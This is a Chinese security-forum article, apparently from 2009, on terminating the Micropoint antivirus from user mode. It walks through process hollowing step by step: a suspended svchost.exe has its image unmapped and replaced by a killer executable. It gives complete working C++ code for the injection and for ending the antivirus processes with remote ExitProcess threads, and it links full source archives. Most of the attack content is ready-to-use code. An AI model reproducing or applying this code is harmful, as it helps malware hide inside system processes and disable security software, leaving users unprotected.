


# Ring3 下 WX 方法结束微点 2009

> 原文：[`www.pediy.com/kssd/pediy10/99206.html`](https://www.pediy.com/kssd/pediy10/99206.html)

此法系 Hovi.Delphic 首发，某日看过之后甚感 WS(某牛：“太挫了，太挫了”)，于是把原作者的 VB 代码转成 VC，以飨读者。  
   
微点的主动防御没有拦截一些系统进程如 csrss.exe, smss,exe, lsass.exe, svchost.exe, services.exe 等的危险动作。因为这些进程通常是不危险的，我们要做的就是把它们中的某个变成危险进程，然后用这个危险进程猥亵微点。即用进程注入的方法把 svhost.exe 偷换成 TerminateMP.exe(结束微点的程序)，也就是所谓的借尸还魂。  
   
操作步骤如下：  
1.调用 CretaeProcess 函数创建第一个进程（svhost.exe）,该进程处于 suspend 模式(记得参数 CREATE\_SUSPENDED ).   
   
2.调用 GetThreadContext 函数获取第一个进程的各个寄存器值.其中 EBX 的值指向的就是该进程的 PEB,EAX 寄存器保存了该进程的入口点 (entry point)   
   
3.从 PEB 中获取该进程的 base\_address, \[ebx+8\]的值   
   
lkd> dt \_peb  
ntdll!\_PEB  
+0x000 InheritedAddressSpace : UChar  
+0x001 ReadImageFileExecOptions : UChar  
+0x002 BeingDebugged : UChar  
+0x003 SpareBool : UChar  
+0x004 Mutant : Ptr32 Void  
+0x008 ImageBaseAddress : Ptr32 Void            //映像基址  
... ...  
   
4.把第二个进程（TerminateMP.exe）读入到内存中,用 ReadFile 函数调用即可,注意如果文件对齐和内存对齐不一样的话,必须做必要的对齐操作.   
5.如果第二个进程和第一个进程有相同的基地址(base-address),并且第二个进程的大小小于第一个进程,则只要简单的调用 WriteProcessMemory 函数覆盖掉第一个进程的进程空间,然后恢复运行即可.   
   
6.否则的话,先调用 ZwUnmapViewOfSection 把第一个进程的镜像映射去掉,该函数由 ntdll.dll 导出.然后调用 VertualAllocEX 函数在第一个进程内存空间里面申请足够大的内存.然后拷贝第二个进程的镜像到该空间(利用 WriteProcessMemory 函数)   
   
7.假如调用 ZwUnmapViewOfSection 操作失败,但是第二个 exe 是可重定位的.则可以在第一个进程空间里面的任何位置开始申请足够大的空间,在该分配的空间对第二个进程进行重定位.然后拷贝重定位后的 exe 到第一个进程空间里,开始位置就是申请的空间位置.   
   
8.用第二个进程(TerminateMP.exe)的 base-address 修正 PEB 中相应的值,位置是\[ebx+8\]   
   
9.用 EAX 设置第二个进程( TerminateMP.exe )的入口点地址   
10.调用 SetThreadContext 函数修正   
11.调用 ResumeThread 函数恢复 svhost.exe 运行.  
   
实现代码可以参考 http://bbs.pediy.com/showthread.php?t=41873  
   
这里提供一份更简短的代码，便于看清操作过程  

代码:

```
BOOL InjectProcess(LPTSTR VictimFile,LPTSTR InjectExe)
{
 HANDLE hFile;
 DWORD dwFileSize;    //文件大小
 IMAGE\_DOS\_HEADER DosHeader;
 IMAGE\_NT\_HEADERS NtHeader;
 PROCESS\_INFORMATION pi;
 STARTUPINFO si;
 CONTEXT context;
 PVOID ImageBase;
 unsigned long ImageSize;
 unsigned long BaseAddr;
 unsigned long retByte = 0;
 LONG offset;
 HMODULE hNtDll=GetModuleHandle("ntdll.dll");
 if(!hNtDll)
  return FALSE;
 ZWUNMAPVIEWOFSECTION ZwUnmapViewOfSection = (ZWUNMAPVIEWOFSECTION)GetProcAddress(hNtDll,"ZwUnmapViewOfSection");
 memset(&si, 0, sizeof(si));   
 memset(&pi, 0, sizeof(pi)); 
 si.cb = sizeof(si);
 
 hFile = ::CreateFile(InjectExe,GENERIC\_READ,FILE\_SHARE\_READ | FILE\_SHARE\_WRITE,NULL,OPEN\_EXISTING,FILE\_ATTRIBUTE\_ARCHIVE,NULL);
 if (hFile == INVALID\_HANDLE\_VALUE)
 {
  return FALSE;
 }
 ::SetFilePointer(hFile, 0, NULL, FILE\_BEGIN);
 dwFileSize = ::GetFileSize(hFile, NULL);
 LPBYTE pBuf = new BYTE\[dwFileSize\];
 memset(pBuf, 0, dwFileSize);
 DWORD dwNumberOfBytesRead = 0;   
    ::ReadFile( hFile   
        , pBuf   
        , dwFileSize   
        , &dwNumberOfBytesRead   
        , NULL   
        );    
 ::CopyMemory((void \*)&DosHeader,pBuf,sizeof(IMAGE\_DOS\_HEADER));
 ::CopyMemory((void \*)&NtHeader,&pBuf\[DosHeader.e\_lfanew\],sizeof(IMAGE\_NT\_HEADERS));
 //检查 PE 结构
 //以挂起方式进程
 BOOL res = CreateProcess(NULL,VictimFile,NULL,NULL,FALSE,CREATE\_SUSPENDED,NULL,NULL,&si,&pi); 
 
 if (res)
 {
  context.ContextFlags = CONTEXT\_FULL;
  if (!GetThreadContext(pi.hThread,&context))  //如果调用失败
  {
   CloseHandle(pi.hThread);
   CloseHandle(pi.hProcess);
   return FALSE;
  }
  ReadProcessMemory(pi.hProcess,(void \*)(context.Ebx + 8),&BaseAddr,sizeof(unsigned long),NULL);
  if (!BaseAddr)
  {
   CloseHandle(pi.hThread);
   CloseHandle(pi.hProcess);
   return FALSE;
  }
  //拆卸傀儡进程内存模块
  if (ZwUnmapViewOfSection((unsigned long)pi.hProcess,BaseAddr))
  {
   CloseHandle(pi.hThread);
   CloseHandle(pi.hProcess);
   return FALSE;
  }
  ImageBase = VirtualAllocEx(pi.hProcess, 
   (void \*)NtHeader.OptionalHeader.ImageBase,
   NtHeader.OptionalHeader.SizeOfImage, 
   MEM\_RESERVE|MEM\_COMMIT, 
   PAGE\_EXECUTE\_READWRITE);  //ImageBase 0x00400000
  if (ImageBase == NULL)
  {
   DWORD wrongFlag = GetLastError();
   CloseHandle(pi.hThread);
   CloseHandle(pi.hProcess);
   return FALSE;
  }  
  //替换傀儡进程内存数据
  if(!WriteProcessMemory(pi.hProcess, ImageBase, pBuf, NtHeader.OptionalHeader.SizeOfHeaders, &retByte))
  {
   DWORD wrongFlag2 = GetLastError();  
  }
  //DOS 头 + PE 头 + 区块表的总大小
  //定位到区块头
  offset = DosHeader.e\_lfanew + sizeof(IMAGE\_NT\_HEADERS);
  IMAGE\_SECTION\_HEADER secHeader;
  WORD i = 0;
  for (;i < NtHeader.FileHeader.NumberOfSections;i++)
  {
   //定位到各个区块
   ::CopyMemory((void \*)&secHeader, &pBuf\[offset + i\*sizeof(IMAGE\_SECTION\_HEADER)\],sizeof(IMAGE\_SECTION\_HEADER));
   WriteProcessMemory(pi.hProcess,(LPVOID)((DWORD)ImageBase + secHeader.VirtualAddress),&pBuf\[secHeader.PointerToRawData\],secHeader.SizeOfRawData,&retByte);
   VirtualProtectEx(pi.hProcess, (LPVOID)((DWORD)ImageBase + secHeader.VirtualAddress), secHeader.Misc.VirtualSize, PAGE\_EXECUTE\_READWRITE,&BaseAddr);
  }
 
  context.ContextFlags = CONTEXT\_FULL;
  //重置 执行文件入口
  WriteProcessMemory(pi.hProcess, (void \*)(context.Ebx + 8), 
   &ImageBase,   //4194304
   4, &retByte);
  context.Eax = (unsigned long)ImageBase + NtHeader.OptionalHeader.AddressOfEntryPoint;
  SetThreadContext(pi.hThread,&context);
  ResumeThread(pi.hThread);
 }
 
 CloseHandle(pi.hThread);
 CloseHandle(pi.hProcess);
 ::CloseHandle(hFile);  
 delete\[\] pBuf;
 return TRUE;
}
 

```

  
用以上方法启动 TerminateMP.exe 之后，系统中没有 TerminateMP.exe 进程，只有被替换了的 svhost.exe  
  
在 svhost.exe 进程中可以轻松地用 OpenProcess 打开微点的进程，但是要结束微点的进程还是很麻烦的（Ring3 下）。某 90 后用创建远程错误线程的方法达到了目的（这么挫的方法都想得出来）。  
  
代码:

```
EnableDebugPriv(\_T("SeDebugPrivilege"));
    HMODULE hModule = GetModuleHandle("kernel32.dll");
    unsigned long FunAddr  = (unsigned long)GetProcAddress(hModule,"ExitProcess");
    for (int i=0;i<n;i++)
    {
        HANDLE hProcess = OpenProcess(PROCESS\_ALL\_ACCESS,0,Pids\[i\]);
        //创建远程错误线程
        HANDLE hThread = CreateRemoteThread(hProcess,NULL,0,(EXITPROCESS)FunAddr,NULL,0,NULL);
}

```

  
执行效果如图：  
   
  

完整代码： 进程注入 InjectProcess.rar 结束微点 TerminateMP.rar